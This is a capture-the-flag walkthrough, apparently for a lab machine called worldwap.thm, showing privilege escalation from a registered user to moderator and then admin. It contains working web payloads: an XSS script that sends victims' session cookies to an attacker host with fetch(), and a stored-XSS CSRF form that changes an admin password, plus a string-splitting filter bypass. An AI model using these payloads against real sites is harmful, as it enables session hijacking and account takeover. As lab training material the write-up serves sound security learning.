

# Questions



---

# Setup 

add `worldwap.thm` to /etc/hosts



---

## Enumeration and Scanning

using `nmap`



Only `ssh` and `http` ports were open.

So, let's open the website.


**View Source**








If **role = moderator -> admin.php if not -> dashboard.php**


---

## Get Moderator Role

Let's visit the `register` page



Let's try injecting `XSS` with a simple payload 

```
<script src="http://MACHINE_IP/test"></script> 
```

to check if we can use the payload in each input field.





Just change the username to something shorter


Now, it succeeds.

Create a php server to check which field is working

`php -S 0.0.0.0:80`



It seems like every input field except password can accept an XSS payload. Next, let's steal the moderator's session cookie to access `dashboard.php`

**Payload** : 

```
<script>fetch("http://MACHINE_IP?cookie="+ btoa(document.cookie),{method: "GET"});</script>
```



After registering, look at the log, and we will see the session cookie.



`UEhQU0VTU0lEPTkwcWlrdmo4Z2ZjaWxqNXNicmZuNmk4Njhx`

Which is encoded with `base64`. Let's decode this.



Now, we got the `PHPSESSID` of the **moderator**.



Change the value of `PHPSESSID` to the one we got.



After reloading `worldwap.thm`, it redirects to `dashboard.php`. There is information about a subdomain `login.worldwap.thm`.

So, let's add this domain name to our `/etc/hosts` first



Then visit the website.



This is the hint that we have to visit `http://login.worldwap.thm/login.php`



With our moderator session, we now access the moderator's `profile.php` and find our first flag.

---

## Get Admin Role

Investigate pages we can access.

Change password:



Chat with Admin:



This is interesting. Let's try injecting simple XSS to see if it works or not.

```
<script>alert(1)</script>
```



**XSS** worked!

So, let's inspect the page further and we don't see any **CSRF** protection like **CSRF** tokens.

Let's craft a script to inject **XSS** to send a request to change the password with our new_password = `hacked`

```
<script>
    window.onload = function() {
        var form = document.createElement('form');
        form.method = 'POST';
        form.action = 'http://login.worldwap.thm/change_password.php';
        var input = document.createElement('input');
        input.type = 'hidden';
        input.name = 'new_password';
        input.value = 'hacked';
        form.appendChild(input);
        document.body.appendChild(form);
        form.submit();
    };
</script>
```

It seems like it's not working. Click view source to see what happens.



 we see that the HTTP URL we submit gets automatically formatted to `<a href...>`.

So, let's modify our payload a little bit to bypass this detection.

```
<script>
    window.onload = function() {
        var form = document.createElement('form');
        form.method = 'POST';
        form.action = 'ht'+'tp://'+'login.worldwap.thm/change_password.php';
        var input = document.createElement('input');
        input.type = 'hidden';
        input.name = 'new_password';
        input.value = 'hacked';
        form.appendChild(input);
        document.body.appendChild(form);
        form.submit();
    };
</script>
```


If it works, we will be redirected to the change password page



It worked! Now, let's try logging in with our new password





Finally, we get access to the **admin** account and get the last flag!

*DONE!!!*

---
